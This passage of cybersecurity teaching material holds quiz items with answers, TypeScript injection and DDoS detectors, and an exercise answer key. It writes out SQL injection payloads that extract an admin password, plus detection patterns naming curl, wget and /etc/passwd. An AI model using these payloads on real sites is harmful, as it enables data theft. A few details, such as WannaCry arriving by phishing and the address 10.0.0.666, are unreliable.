All three (canary + ASLR + NX) are needed for effective exploit mitigation.
</details>

---

**Q7.** What distinguishes a worm from a virus?

A) Worms require human action to spread; viruses self-propagate  
B) Worms self-propagate without human action; viruses require a host file and user action  
C) Worms only infect Windows; viruses infect all OSes  
D) Worms are less harmful than viruses

<details>
<summary>Show Answer</summary>

**Answer: B) Worms self-propagate without human action; viruses require a host file and user action**

**Explanation:** Key differences:
| Feature | Virus | Worm |
|---------|-------|------|
| Host file | Needs to attach to executable/script | Standalone (no host) |
| Propagation | User runs infected file | Self-propagates via network |
| Human action | Required (open file, run program) | Not required |

Famous worms: Morris (1988, first internet worm), Slammer (2003, 376-byte payload, infected 75K hosts in 10 min), Conficker (2008, infected 10M+), WannaCry (2017, worm-like ransomware).
</details>

---

**Q8.** In a Smurf attack (ICMP amplification), what is the source IP of the ICMP echo request?

A) The attacker's IP  
B) A random spoofed IP  
C) The victim's IP  
D) The broadcast address

<details>
<summary>Show Answer</summary>

**Answer: C) The victim's IP**

**Explanation:** In a Smurf attack, the attacker sends ICMP echo requests to the network broadcast address with the **victim's IP as the source**. Every host on the network responds with ICMP echo replies to the victim, overwhelming it. This was one of the earliest amplification DDoS attacks. Modern networks disable directed broadcast forwarding (default on routers since late 1990s) to prevent Smurf attacks.
</details>

---

**Q9.** Which of the following is NOT a technique used in session hijacking?

A) Session sniffing  
B) Session prediction  
C) Session fixation  
D) Session salting

<details>
<summary>Show Answer</summary>

**Answer: D) Session salting**

**Explanation:** "Session salting" is not a real attack technique. The recognized session hijacking methods are:
- **Session sniffing:** Capturing session ID from unencrypted network traffic
- **Session prediction:** Guessing weak/sequential session IDs
- **Session fixation:** Attacker sets victim's session ID to a known value before login
- **Session side-jacking:** Stealing session cookie over open Wi-Fi (Firesheep tool)
- **XSS-based theft:** Using injected JavaScript to read document.cookie

Defenses: HTTPS-only, HttpOnly + Secure cookie flags, session ID regeneration after login, short session timeouts.
</details>

---

**Q10.** What is the primary purpose of a rootkit?

A) Encrypting files for ransom  
B) Stealing banking credentials  
C) Hiding its presence and maintaining persistent access  
D) Propagating across the network

<details>
<summary>Show Answer</summary>

**Answer: C) Hiding its presence and maintaining persistent access**

**Explanation:** Rootkits are designed to conceal their existence from security tools and the OS. They achieve this by:
- **Kernel rootkit:** Hooking system calls (file listing, process listing, registry access) to hide files, processes, and registry entries
- **Bootkit:** Infecting MBR/UEFI to load before the OS (persistent across reinstalls)
- **Firmware rootkit:** Hiding in BIOS/UEFI/device firmware (hardest to detect)

Rootkits are typically used as a persistence mechanism after initial compromise. Example: Sony BMG rootkit (2005) was actually DRM that hid itself — became a major PR disaster. Stuxnet used kernel rootkit components.
</details>

---

**Q11.** In a time-based blind SQL injection, what does the attacker observe to infer information?

A) Error messages from the database  
B) The response time delay  
C) The HTTP response code  
D) The HTML content of the page

<details>
<summary>Show Answer</summary>

**Answer: B) The response time delay**

**Explanation:** In time-based blind SQLi, the attacker injects conditional time-delay functions (e.g., `IF(condition, WAITFOR DELAY '00:00:05', 0)` in SQL Server or `SLEEP(5)` in MySQL). If the condition is true, the response is delayed. If false, it responds normally. By observing timing differences (typically 0-10 seconds), the attacker can extract data one bit at a time.

Example: `' IF (SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)='a') WAITFOR DELAY '00:00:05' --`

The attacker tests each character position, making 256 requests per byte — very slow but effective even with no visible output.
</details>

---

**Q12.** How does SameSite cookie attribute prevent CSRF attacks?

A) It encrypts the cookie value  
B) It restricts when cookies are sent in cross-site requests  
C) It adds a digital signature to cookies  
D) It prevents JavaScript from accessing cookies

<details>
<summary>Show Answer</summary>

**Answer: B) It restricts when cookies are sent in cross-site requests**

**Explanation:** The SameSite attribute has three modes:
- **Strict:** Cookie never sent for cross-site requests (even for link clicks). Most secure but may break legitimate cross-site navigation.
- **Lax:** Cookie sent for top-level navigations (GET requests only, like clicking a normal link). Cookies NOT sent for img/script/iframe/CSRF-like requests. Good balance.
- **None:** Cookie sent for all cross-site requests (must also set Secure flag). No CSRF protection.

Since CSRF forges requests via ``, `<script>`, or `<form>` submissions, SameSite=Lax blocks most CSRF attacks while maintaining basic cross-site navigation (links).
</details>

---

**Q13.** A buffer overflow overwrites the return address on the stack. What value does the attacker place there?

A) The address of the stack canary  
B) The address of the injected shellcode  
C) The address of the main() function  
D) The address of the NX bit

<details>
<summary>Show Answer</summary>

**Answer: B) The address of the injected shellcode**

**Explanation:** In a classic stack buffer overflow:
1. Attacker writes more data than the buffer can hold
2. Data overwrites saved EBP (base pointer) and return address
3. Attacker places shellcode (machine code) in the buffer
4. Attacker overwrites the return address to point to the shellcode's location on the stack
5. When the function returns, CPU jumps to shellcode and executes it

Modern mitigations:
- **Stack canary:** Random value between buffer and return address — detects overflow
- **ASLR:** Shellcode address is unpredictable
- **NX/DEP:** Stack is non-executable (shellcode can't run)
- **ROP (Return-Oriented Programming):** Even with NX, attackers chain existing code gadgets
</details>

---

**Q14.** What is the key difference between Spear Phishing and Whaling?

A) Whaling targets senior executives specifically  
B) Spear phishing uses email; whaling uses phone calls  
C) Whaling targets multiple victims simultaneously  
D) There is no difference — they are the same

<details>
<summary>Show Answer</summary>

**Answer: A) Whaling targets senior executives specifically**

**Explanation:** 
- **Phishing:** Mass email to millions of recipients (generic, untargeted)
- **Spear Phishing:** Targeted at specific individual/organization with personalized content (researched details: name, role, recent activities)
- **Whaling:** Spear phishing targeting C-level executives (CEO, CFO, CTO) — the "big fish." Often uses legal/financial themes (urgent wire transfer, lawsuit, regulatory filing).

Whaling is higher-stakes because executives have access to sensitive data and larger financial authority. Example: The "CEO Fraud" where attacker poses as CEO and asks finance to wire funds.
</details>

---

**Q15.** The Slowloris attack targets which characteristic of web servers?

A) Network bandwidth  
B) CPU processing power  
C) Connection thread pool  
D) Database connection pool

<details>
<summary>Show Answer</summary>

**Answer: C) Connection thread pool**

**Explanation:** Slowloris opens many HTTP connections and sends partial HTTP headers very slowly (one byte every few minutes). It keeps connections open without completing the request (never sends the final `\r\n\r\n` that terminates headers). The server's thread pool (or process pool) fills up with these stalled connections, preventing legitimate users from connecting.

Slowloris requires very little bandwidth — a single attacker with a modest connection can take down a typical Apache server. Mitigation: limit concurrent connections per IP, reduce timeout values, use a reverse proxy (Nginx) that buffers requests.
</details>

---

**Q16.** Which OWASP Top 10 (2021) category includes SQL, NoSQL, OS, and LDAP injection?

A) A01: Broken Access Control  
B) A02: Cryptographic Failures  
C) A03: Injection  
D) A05: Security Misconfiguration

<details>
<summary>Show Answer</summary>

**Answer: C) A03: Injection**

**Explanation:** In OWASP Top 10 (2021), Injection dropped from #1 (2017) to #3 (2021) but remains a critical risk. It covers:
- SQL injection (most common)
- NoSQL injection (MongoDB, Couchbase)
- OS command injection
- LDAP injection
- XPath injection

**Updated OWASP Top 10 (2021):**
A01: Broken Access Control (from #5)  
A02: Cryptographic Failures (from Sensitive Data Exposure)  
A03: Injection (was #1)  
A04: Insecure Design (NEW)  
A05: Security Misconfiguration  
A06: Vulnerable & Outdated Components  
A07: Identification & Auth Failures  
A08: Software & Data Integrity Failures (NEW)  
A09: Security Logging & Monitoring Failures  
A10: Server-Side Request Forgery (NEW)

Prevention for injection: parameterized queries, input validation, least privilege, and prepared statements.
</details>

---

**Q17.** In a DNS cache poisoning attack, what does the attacker inject into the DNS resolver's cache?

A) Malware  
B) Forged DNS resource records  
C) JavaScript code  
D) Private keys

<details>
<summary>Show Answer</summary>

**Answer: B) Forged DNS resource records**

**Explanation:** DNS cache poisoning (DNS spoofing) attacks the caching resolver by injecting fake DNS records (A, AAAA, CNAME, NS). When a victim queries a legitimate domain (e.g., `bank.com`), the poisoned resolver returns the attacker's IP address. The victim connects to a fake website that looks identical to the real one.

The classic Kaminsky attack (2008) exploited the fact that DNS resolvers accept unsolicited DNS responses if the query ID matches. Fix: DNS source port randomization, query ID randomization, and DNSSEC (cryptographic signing of DNS records).

Modern variant: DNS rebinding — attacker registers domain that rapidly switches between DNS responses to bypass same-origin policy.
</details>

---

**Q18.** An attacker uses ARP spoofing on a local network. Which pair of addresses are associated in the forged ARP reply?

A) The attacker's IP with the victim's MAC  
B) The gateway's IP with the attacker's MAC  
C) The victim's IP with the gateway's MAC  
D) The DNS server's IP with the attacker's MAC

<details>
<summary>Show Answer</summary>

**Answer: B) The gateway's IP with the attacker's MAC**

**Explanation:** ARP spoofing (ARP cache poisoning): attacker sends forged ARP replies associating the gateway's IP address with the attacker's MAC address. All victim traffic destined for the gateway (and hence the internet) is redirected to the attacker's machine. The attacker can then:
- Intercept traffic (passive sniffing)
- Modify traffic (MITM)
- Hijack sessions (session hijacking)

Mitigation: Dynamic ARP Inspection (DAI) on managed switches, static ARP entries for critical hosts, port security, and encrypted protocols (TLS prevents content exposure but traffic analysis still possible).
</details>

---

**Q19.** What is the key difference between a Remote Access Trojan (RAT) and a backdoor?

A) RATs provide interactive remote control; backdoors typically open a port for connection  
B) RATs are harder to detect  
C) Backdoors provide remote control; RATs only steal data  
D) There is no difference

<details>
<summary>Show Answer</summary>

**Answer: A) RATs provide interactive remote control; backdoors typically open a port for connection**

**Explanation:** RAT (Remote Access Trojan): Provides the attacker with a full interactive desktop/command shell. Examples: SubSeven, Poison Ivy, DarkComet, njRAT. The attacker can browse files, capture keystrokes, activate webcam, etc.

Backdoor: A simpler mechanism that opens a specific port or creates a listening service. May be embedded in legitimate software. Can be used for later access but typically less functional than a RAT.

Both are trojan types (require installation by victim). Many modern malware combines RAT functionality with keylogging, credential theft, and crypto-mining.
</details>

---

**Q20.** In the context of AI-powered cyber threats, what is an "adversarial example"?

A) Malware that uses AI to evade detection  
B) An input to an ML model specifically crafted to cause misclassification  
C) A phishing email generated by AI  
D) A DDoS attack controlled by AI

<details>
<summary>Show Answer</summary>

**Answer: B) An input to an ML model specifically crafted to cause misclassification**

**Explanation:** Adversarial examples are inputs intentionally perturbed (by small, often imperceptible noise) to cause an ML/DL model to misclassify them. Examples:
- Adding subtle noise to a "stop sign" image causes an autonomous vehicle's model to classify it as "speed limit"
- Slightly modifying malware binary so ML-based antivirus classifies it as benign
- Perturbing network traffic features to evade ML-based IDS

**AI-Powered Threats (Modern Context):**
1. **AI-generated phishing:** ChatGPT/LLMs generate highly convincing, personalized phishing emails with perfect grammar — dramatically lowering attacker cost
2. **Deepfake social engineering:** Voice cloning (5-second sample → realistic voice), video deepfakes for CEO fraud
3. **Intelligent malware:** AI that adapts behavior based on environment (sandbox detection, automated evasion)
4. **Automated vulnerability discovery:** AI agents scanning and exploiting vulnerabilities at machine speed
5. **LLM-powered exploits:** Using language models to craft payloads, generate exploit code, and analyze defenses

**Defenses:** Adversarial training, input sanitization, ensemble models, defensive distillation, and human-in-the-loop verification.
</details>

---

### TypeScript Implementation: SQL Injection Detector

```typescript
/**
 * SQL Injection Detection Engine
 * Detects common SQL injection patterns in HTTP requests
 */

interface InjectionAlert {
  type: 'SQLI' | 'XSS' | 'CMDI' | 'LFI' | 'NONE';
  severity: 'LOW' | 'MEDIUM' | 'HIGH' | 'CRITICAL';
  input: string;
  parameter: string;
  pattern: string;
  blocked: boolean;
}

class InjectionDetector {
  private sqliPatterns: RegExp[] = [
    /(\bOR\b|\bAND\b)\s+\d+\s*=\s*\d+/i,           // OR 1=1
    /(\bOR\b|\bAND\b)\s+['"]\s*=\s*['"]/i,          // OR 'a'='a
    /['"]\s*(;|--|#|\/\*)/,                          // Quote + comment
    /\bUNION\b.*\bSELECT\b/i,                         // UNION SELECT
    /\bSELECT\b.*\bFROM\b/i,                          // SELECT ... FROM
    /\bDROP\b.*\bTABLE\b/i,                           // DROP TABLE
    /\bINSERT\b.*\bINTO\b/i,                          // INSERT INTO
    /\bEXEC\b.*\(/i,                                  // EXEC(
    /\bWAITFOR\b.*\bDELAY\b/i,                        // WAITFOR DELAY (time-based)
    /\bSLEEP\s*\(/i,                                  // SLEEP( (MySQL time-based)
    /\bBENCHMARK\s*\(/i,                              // BENCHMARK( (MySQL)
    /pg_sleep\s*\(/i,                                 // pg_sleep( (PostgreSQL)
    /xp_cmdshell/i,                                   // xp_cmdshell (MSSQL)
    /@@version/i,                                     // @@version (MSSQL)
    /\bINFORMATION_SCHEMA\b/i,                        // Schema extraction
    /0x[0-9a-f]{8,}/i                                // Hex-encoded SQL
  ];

  private xssPatterns: RegExp[] = [
    /<script\b[^>]*>/i,                               // <script> tag
    /javascript\s*:/i,                                 // javascript: URI
    /on\w+\s*=\s*['"]?[^'"]*['"]?/i,                  // onerror=, onload=, etc.
    /]*onerror\s*=/i,                        // 
    /<svg\b/i,                                         // <svg> with event handlers
    /alert\s*\(.*\)/i,                                 // alert()
    /<[^>]*>.*<[^>]*>/i                               // Nested tags
  ];

  private commandInjectionPatterns: RegExp[] = [
    /[|;&`$]\s*(cmd|powershell|bash|sh|python|perl|wget|curl)\b/i,
    /\$\s*\(.*\)/,                                     // $(command)
    /`.*`/,                                            // backtick command
    /\bping\b.*-n\s+\d+/i,                             // ping -n (time-based detect)
    /\bcat\s+\//i,                                     // cat /etc/passwd
    /\/etc\/passwd/i,
    /\|/                                               // pipe
  ];

  detect(input: string, parameter: string): InjectionAlert {
    for (const pattern of this.sqliPatterns) {
      if (pattern.test(input)) {
        return {
          type: 'SQLI',
          severity: 'CRITICAL',
          input,
          parameter,
          pattern: pattern.source,
          blocked: true
        };
      }
    }

    for (const pattern of this.xssPatterns) {
      if (pattern.test(input)) {
        return {
          type: 'XSS',
          severity: 'HIGH',
          input,
          parameter,
          pattern: pattern.source,
          blocked: true
        };
      }
    }

    for (const pattern of this.commandInjectionPatterns) {
      if (pattern.test(input)) {
        return {
          type: 'CMDI',
          severity: 'CRITICAL',
          input,
          parameter,
          pattern: pattern.source,
          blocked: true
        };
      }
    }

    return {
      type: 'NONE',
      severity: 'LOW',
      input,
      parameter,
      pattern: '',
      blocked: false
    };
  }

  sanitize(input: string, context: 'SQL' | 'HTML' | 'URL' | 'JS'): string {
    const entities: Record<string, string> = {
      '&': '&amp;',
      '<': '&lt;',
      '>': '&gt;',
      '"': '&quot;',
      "'": '&#x27;',
      '/': '&#x2F;'
    };

    switch (context) {
      case 'HTML':
        return input.replace(/[&<>"'/]/g, c => entities[c] || c);
      case 'SQL':
        return input.replace(/'/g, "''").replace(/\\/g, '\\\\');
      case 'URL':
        return encodeURIComponent(input);
      case 'JS':
        return input
          .replace(/\\/g, '\\\\')
          .replace(/'/g, "\\'")
          .replace(/"/g, '\\"')
          .replace(/\n/g, '\\n')
          .replace(/\r/g, '\\r');
      default:
        return input;
    }
  }
}

// Demo
const detector = new InjectionDetector();
const testInputs = [
  { input: "' OR 1=1 --", param: 'username' },
  { input: "<script>alert('xss')</script>", param: 'comment' },
  { input: "cat /etc/passwd", param: 'filename' },
  { input: "John Doe", param: 'name' },
  { input: "1; DROP TABLE users;--", param: 'id' },
  { input: "' UNION SELECT username,password FROM admins--", param: 'email' },
];

for (const test of testInputs) {
  const alert = detector.detect(test.input, test.param);
  if (alert.type !== 'NONE') {
    console.log(`[${alert.severity}] ${alert.type} detected in '${alert.parameter}': "${alert.input}"`);
    console.log(`  Sanitized: ${detector.sanitize(alert.input, 'HTML')}`);
  } else {
    console.log(`[SAFE] '${test.param}': "${test.input}"`);
  }
}
```

### TypeScript Implementation: Attack Detector (DDoS Detection Engine)

```typescript
/**
 * DDoS Detection Engine
 * Real-time traffic monitoring with rate limiting and anomaly detection
 */

interface TrafficEvent {
  srcIp: string;
  timestamp: number;
  method: string;
  path: string;
  userAgent: string;
}

interface RateLimitState {
  ip: string;
  count: number;
  windowStart: number;
  blocked: boolean;
  blockExpiry: number;
}

class DDoSDetector {
  private rateLimitMap: Map<string, RateLimitState> = new Map();
  private readonly WINDOW_MS = 1000; // 1 second window
  private readonly RATE_LIMIT = 100; // max requests per window
  private readonly BLOCK_DURATION_MS = 60000; // 1 minute block
  private readonly UNIQUE_IPS_THRESHOLD = 500; // potential distributed attack
  private readonly SYNC_THRESHOLD = 50; // SYN flood suspicion

  private recentIps: Set<string> = new Set();
  private recentSynCount: number = 0;
  private totalBlocked = 0;

  private isTorExitNode(ip: string): boolean {
    // Stub: In production, query Tor exit node lists
    return false;
  }

  private isKnownAttacker(ip: string): boolean {
    // Stub: In production, query threat intelligence feeds
    return false;
  }

  processEvent(event: TrafficEvent): { action: 'ALLOW' | 'BLOCK' | 'CHALLENGE'; reason: string } {
    const now = Date.now();

    // Update recent IPs for distributed detection
    this.recentIps.add(event.srcIp);
    if (event.path === '/' || event.path.toLowerCase().includes('syn')) {
      this.recentSynCount++;
    }

    // Clean old state entries
    if (this.rateLimitMap.size > 10000) {
      const cutoff = now - this.WINDOW_MS * 10;
      for (const [ip, state] of this.rateLimitMap) {
        if (state.windowStart < cutoff) this.rateLimitMap.delete(ip);
      }
    }

    // Check if currently blocked
    const existing = this.rateLimitMap.get(event.srcIp);
    if (existing && existing.blocked && now < existing.blockExpiry) {
      this.totalBlocked++;
      return { action: 'BLOCK', reason: `IP blocked for rate limiting` };
    }

    // Check known attackers
    if (this.isKnownAttacker(event.srcIp)) {
      this.blockIp(event.srcIp, 3600000); // 1 hour block
      return { action: 'BLOCK', reason: `Known attacker IP` };
    }

    // Rate limiting
    if (!existing || now - existing.windowStart > this.WINDOW_MS) {
      this.rateLimitMap.set(event.srcIp, {
        ip: event.srcIp,
        count: 1,
        windowStart: now,
        blocked: false,
        blockExpiry: 0
      });
    } else {
      existing.count++;

      if (existing.count > this.RATE_LIMIT) {
        this.blockIp(event.srcIp, this.BLOCK_DURATION_MS);
        return { action: 'BLOCK', reason: `Rate limit exceeded (${existing.count} req/sec)` };
      }
    }

    // Distributed attack detection
    if (this.recentIps.size > this.UNIQUE_IPS_THRESHOLD) {
      if (this.recentSynCount > this.SYNC_THRESHOLD) {
        // Might be a DDoS, but don't block legitimate traffic
        // Return challenge (e.g., CAPTCHA or JS challenge)
        return { action: 'CHALLENGE', reason: 'Suspicious traffic pattern detected' };
      }
    }

    // Periodic cleanup of tracking sets
    if (this.recentIps.size > 10000) {
      this.recentIps.clear();
      this.recentSynCount = 0;
    }

    return { action: 'ALLOW', reason: 'Normal traffic' };
  }

  private blockIp(ip: string, durationMs: number): void {
    const existing = this.rateLimitMap.get(ip);
    if (existing) {
      existing.blocked = true;
      existing.blockExpiry = Date.now() + durationMs;
    } else {
      this.rateLimitMap.set(ip, {
        ip, count: 0, windowStart: Date.now(),
        blocked: true, blockExpiry: Date.now() + durationMs
      });
    }
  }

  getBlockedCount(): number {
    return this.totalBlocked;
  }

  getStats() {
    return {
      trackedIps: this.rateLimitMap.size,
      recentUniqueIps: this.recentIps.size,
      totalBlocked: this.totalBlocked,
      synActivity: this.recentSynCount
    };
  }
}

// Simulation
const detector = new DDoSDetector();

// Simulate normal traffic
for (let i = 0; i < 50; i++) {
  detector.processEvent({
    srcIp: `192.168.1.${Math.floor(Math.random() * 255)}`,
    timestamp: Date.now(),
    method: 'GET',
    path: '/index.html',
    userAgent: 'Mozilla/5.0'
  });
}

// Simulate attack from single IP (500 req in 1 sec)
const attackerIp = '10.0.0.666';
for (let i = 0; i < 500; i++) {
  const result = detector.processEvent({
    srcIp: attackerIp,
    timestamp: Date.now(),
    method: 'GET',
    path: '/login.php',
    userAgent: 'bot/1.0'
  });
  if (result.action === 'BLOCK') {
    console.log(`Attack blocked: ${result.reason}`);
    break;
  }
}

// Simulate distributed attack
for (let i = 0; i < 1000; i++) {
  detector.processEvent({
    srcIp: `203.0.113.${Math.floor(Math.random() * 256)}`,
    timestamp: Date.now(),
    method: 'POST',
    path: '/search?q=' + 'a'.repeat(1000),
    userAgent: 'badbot/2.0'
  });
}

const stats = detector.getStats();
console.log('\nDetection Stats:', JSON.stringify(stats, null, 2));
```

### Mermaid Diagram: AI-Powered Attack Lifecycle

```mermaid
flowchart TD
    subgraph Traditional[Traditional Attack Lifecycle]
        R1["Reconnaissance (Manual)"] --> W1["Weaponization (Manual)"] --> D1["Delivery (Email/Malware)"] --> E1["Exploitation"] --> I1["Installation"] --> C2C1["C2 Communication"] --> A1["Actions on Objectives"]
    end
    subgraph AIDriven[AI-Powered Attack Lifecycle]
        R2["AI Reconnaissance<br/>• Automated scanning<br/>• OSINT gathering (LLM)<br/>• Vulnerability discovery"] --> W2["AI Weaponization<br/>• Malware generation (LLM)<br/>• Polymorphic code<br/>• Adversarial examples"] --> D2["AI Delivery<br/>• Personalized phishing (LLM)<br/>• Voice deepfakes<br/>• Social media targeting"] --> E2["AI Exploitation<br/>• Adaptive payloads<br/>• Sandbox evasion<br/>• Automated privilege escalation"] --> I2["AI Persistence<br/>• Learning-based stealth<br/>• Behavioral mimicry<br/>• Self-healing infections"] --> C2C2["AI C2<br/>• Encrypted traffic mimicry<br/>• Decentralized coordination<br/>• Traffic pattern evasion"] --> A2["AI Actions<br/>• Data exfiltration<br/>• Fraud at scale<br/>• Automated lateral movement"]
    end
    style Traditional fill:#ffebee
    style AIDriven fill:#e8f5e9
```



### Modern OWASP Top 10 (2021) Summary

| Rank | Category | Description | Typical Attack |
|------|----------|-------------|----------------|
| A01 | Broken Access Control | Weak permission checks | IDOR, privilege escalation, forced browsing |
| A02 | Cryptographic Failures | Weak/absent encryption | Data exposure, algorithm downgrade |
| A03 | Injection | Untrusted input in queries | SQL, NoSQL, OS command, LDAP injection |
| A04 | Insecure Design | Missing security controls in design | Business logic flaws, missing rate limits |
| A05 | Security Misconfiguration | Default configs, open cloud storage | Directory listing, unnecessary services |
| A06 | Vulnerable Components | Outdated libraries, CVEs | Exploit known vulnerabilities in deps |
| A07 | Auth Failures | Weak login, session management | Credential stuffing, session fixation |
| A08 | Software/Data Integrity Failures | Untrusted updates, CI/CD attacks | Supply chain attack, unsigned updates |
| A09 | Logging/Monitoring Failures | No logging, slow detection | Dwell time (days-months undetected) |
| A10 | SSRF | Server fetches attacker-controlled URL | Cloud metadata theft, internal scanning |

## 📖 Exercise Bank (30 Questions)

**Q1.** Explain the complete lifecycle of a ransomware attack from initial access to payment. Use WannaCry as the case study.

**Q2.** In a DNS amplification attack, why does the attacker spoof the source IP? Why can't the victim identify the attacker?

**Q3.** Write the SQL injection payload that would extract the password hash of user 'admin' from a 'users' table. Include UNION-based and time-based variants.

**Q4.** Compare and contrast Stored XSS vs Reflected XSS vs DOM-based XSS across: persistence, delivery mechanism, victims affected, and severity.

**Q5.** A server has TCP SYN backlog of 128 connections. An attacker sends 1000 SYN packets from spoofed IPs per second. After how many seconds is the backlog full? What happens to legitimate connections?

**Q6.** Describe how Content Security Policy (CSP) headers can prevent XSS attacks. Provide an example CSP header that only allows scripts from the same origin.

**Q7.** In a man-in-the-middle attack using ARP spoofing, the attacker wants to intercept traffic between 192.168.1.10 (victim) and 192.168.1.1 (gateway). What ARP packets does the attacker send?

**Q8.** Calculate the bandwidth required for a DDoS amplification attack sending 10,000 DNS queries per second. Each query = 60 bytes, response = 3000 bytes, amplification factor = 50×. What is the total traffic at the victim?

**Q9.** Explain how a Ransomware-as-a-Service (RaaS) model works. Name three RaaS families and their distinguishing features.

**Q10.** In CSRF, what is the role of SameSite=Strict vs SameSite=Lax? Give a scenario where Strict breaks legitimate functionality while Lax works.

**Q11.** A rootkit hooks the `NtQueryDirectoryFile` syscall. What does this achieve and how does it hide files from the user?

**Q12.** For the OWASP Top 10 (2021) A04 — Insecure Design, give three real-world examples where design flaws led to security breaches.

**Q13.** How does a stack canary detect buffer overflows? Why does it not protect against heap overflows?

**Q14.** Compare the effectiveness of WAF (Web Application Firewall) vs parameterized queries for preventing SQL injection.

**Q15.** In SSL stripping (HTTPS downgrade attack), what does the attacker modify in transit? How does HSTS prevent this?

**Q16.** A social engineer calls an employee claiming to be from IT support. List 5 techniques they might use to extract the employee's password.

**Q17.** Calculate the percentage of CPU consumed by a system processing 10,000 SYNs/second if each SYN consumes 200 μs of CPU. Is the system under threat of resource exhaustion?

**Q18.** Explain how behavioral biometrics (keystroke dynamics, mouse movement) can detect account takeover in real-time.

**Q19.** What is the difference between a bootkit and a firmware rootkit in terms of persistence and detection difficulty?

**Q20.** For a zero-day vulnerability, describe the timeline from discovery to patch deployment. What is the "zero-day window"?

**Q21.** In the context of AI-powered threats, explain how generative AI (e.g., ChatGPT) can be used to create polymorphic malware that evades signature-based detection.

**Q22.** A company's web application has an IDOR vulnerability. Describe the vulnerability, how it's exploited, and the fix.

**Q23.** Compare TCP RST injection vs TCP session hijacking. Which is easier to execute and why?

**Q24.** Describe how OAuth 2.0 implicit grant (deprecated) was vulnerable to access token interception. How does PKCE fix this?

**Q25.** Explain the concept of "dwell time" in cybersecurity. What is the average dwell time according to Mandiant/M-Trends reports?

**Q26.** A phishing email arrives claiming to be from the CEO requesting an urgent wire transfer. List 5 indicators that this is a phishing attempt.

**Q27.** In buffer overflow exploitation, what is a ROP chain? Why is ROP necessary when NX/DEP is enabled?

**Q28.** Compare volumetric DDoS (Layer 3/4) vs application-layer DDoS (Layer 7). Which is harder to mitigate and why?

**Q29.** How does an attacker perform a Pass-the-Hash (PtH) attack in a Windows domain environment?

**Q30.** For the SSRF vulnerability (OWASP Top 10 A10), explain how an attacker exploits a file upload feature that fetches a URL to access cloud metadata (e.g., AWS 169.254.169.254).

**Answer Key:**

<details>
<summary>Show Answer Key</summary>

**A1.** WannaCry lifecycle: (1) phishing email with weaponized document → (2) drops DoublePulsar backdoor → (3) exploits EternalBlue (MS17-010 SMB vuln) → (4) installs ransomware → (5) encrypts files with AES → (6) displays ransom note demanding $300-$600 in Bitcoin → (7) spreads via SMB to other Windows systems on network. Total infected: 230,000+ systems in 150 countries in 4 days.

**A2.** Attacker spoofs source IP = victim's IP. DNS response goes to victim, not attacker. Victim can trace back to open resolver, but attacker's true IP is never revealed (all responses go to victim). The attacker sends queries from their own IP (but spoofed) → impossible to trace without ISP logs.

**A3.** UNION: `' UNION SELECT password FROM users WHERE username='admin'--` (single column). Actual: `' UNION SELECT username,password FROM users WHERE '1'='1` (multiple columns). Time-based (MySQL): `' IF((SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a', SLEEP(5), 0)--`

**A4.** Stored: persistent (database), affects all visitors, highest severity. Reflected: one-time (URL), affects user who clicks, medium severity. DOM-based: client-side only, affects user, varies. All preventable with output encoding + CSP.

**A5.** In 1 sec: 1000 SYN packets arrive, but only 128 can be in backlog. Backlog fills in 128/1000 = 0.128 seconds. After 0.128s, all new SYNs (including legitimate) are dropped. Server becomes unreachable.

**A6.** CSP header: `Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'`. This prevents inline scripts (`<script>alert(1)</script>`) and only allows scripts from same origin. Report-URI can log violations.

**A7.** Two forged ARP replies: (1) to victim: "192.168.1.1 is at AA:BB:CC:DD:EE:FF" (attacker's MAC for gateway IP). (2) to gateway: "192.168.1.10 is at AA:BB:CC:DD:EE:FF" (attacker's MAC for victim IP). Now all traffic between them goes through attacker.

**A8.** Victim receives: 10,000 × 3000 = 30,000,000 bytes/sec ≈ 240 Mbps. Attacker sends: 10,000 × 60 = 600,000 bytes/sec ≈ 4.8 Mbps. Amplification: 50×. Attacker needs only 4.8 Mbps upload to generate 240 Mbps attack.

**A9.** RaaS: developers sell/lease ransomware to affiliates. Affiliates distribute malware and share profits (70/30). Families: REvil (Sodinokibi, $11M ransom demanded from JBS), LockBit (fastest encryption, exfiltrate before encrypt), DarkSide (responsible for Colonial Pipeline, $4.4M).

**A10.** SameSite=Strict: cookie not sent on ANY cross-site request (even clicking link from email → redirects to bank.com → no cookie → not logged in). Lax: cookie sent for top-level GET navigations (link click works) but blocked for POST, img, script. Lax is better UX while still blocking CSRF.

**A11.** `NtQueryDirectoryFile` is the system call for listing files in a directory. When hooked, the rootkit's code intercepts the call, calls the original, then removes its own files from the result before returning. User sees all files EXCEPT the hidden ones. Same technique for processes (NtQuerySystemInformation), registry keys.

**A12.** (1) **No rate limiting:** attacking an API endpoint with unlimited brute-force (credit card testing). (2) **Missing access control in design:** user IDs in URLs (IDOR) without server-side checks. (3) **Trusting client-side validation only:** attacker bypasses JS validation and sends malicious data directly to API. Fix: security by design, threat modeling (STRIDE), and default-deny approach.

**A13.** Stack canary (guard value) placed between local variables and saved EBP/return address. Before function returns, canary is checked — if overwritten, program aborts. Heap overflows: no return address to overwrite (function pointers, vtable pointers on heap). Heap protections: heap cookies, safe unlinking, ASLR.

**A14.** WAF: detects known SQLi patterns (regex, scoring), can be bypassed (encoding, obfuscation), blocks before app. Parameterized queries: separates SQL code from data — prevents ALL SQLi regardless of input. WAF is defense-in-depth; parameterized queries are the actual fix.

**A15.** Attacker is MITM between client and server. Client connects → attacker forwards to real server via HTTP → attacker intercepts HTTPS, downgrades to HTTP, forwards to server (also HTTP or HTTPS). Victim sees HTTP (no padlock). HSTS: server sends `Strict-Transport-Security` header → browser auto-upgrades all future HTTP to HTTPS → attacker cannot downgrade.

**A16.** (1) Authority: "I'm from IT support, we're upgrading systems." (2) Urgency: "Your account will be locked if not updated now." (3) Reciprocity: "I'm doing you a favor helping first." (4) Familiarity: uses employee's name and details from social media. (5) Pretexting: fabricated scenario "security audit requires password verification."

**A17.** Each SYN consumes 200 μs = 0.0002 sec CPU. Total = 10,000 × 0.0002 = 2.0 seconds of CPU per second. CPU time = 200% — system will be overwhelmed. This is a successful SYN flood.

**A18.** Behavioral biometrics creates a profile of user behavior: typing speed, key press duration (dwell time), mouse movement patterns, swipe gestures. When an attacker logs in (account takeover), their behavior differs → system flags and triggers step-up authentication. Works continuously (not just at login). False positives require fallback mechanisms.

